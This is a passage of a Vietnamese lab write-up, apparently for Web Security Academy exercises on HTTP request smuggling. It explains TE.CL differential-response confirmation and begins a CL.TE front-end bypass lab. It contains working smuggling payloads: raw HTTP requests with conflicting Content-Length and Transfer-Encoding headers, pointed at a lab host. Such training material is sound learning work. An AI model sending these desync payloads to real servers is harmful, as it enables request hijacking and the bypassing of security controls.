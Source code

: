 >Phía BE sẽ nhận request thứ 2 như sau
>GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
>
>q=smuggling

**Kết quả:**

>![](https://i.imgur.com/JBnHdtg.png)

<hr>

### Bài 5: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

>![](https://i.imgur.com/fCAkbxN.png)

Cũng tương tự bài trên nhưng bài này phía backend không support TE. Vì nó không support TE nên trường CL ta sẽ giả thành 1 số bé hơn, để phần còn lại của payload được coi như 1 http request tiếp theo.

Payload:

```
POST / HTTP/1.1
Host: 0a900097036bfc1fc025542500a40075.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9e
GET /404 HTTP/1.1
Host: 0a900097036bfc1fc025542500a40075.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0


```

Kết quả:

>![](https://i.imgur.com/1sWsBm0.png)


<hr>

### Bài 6: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

>![](https://i.imgur.com/opeO6sH.png)
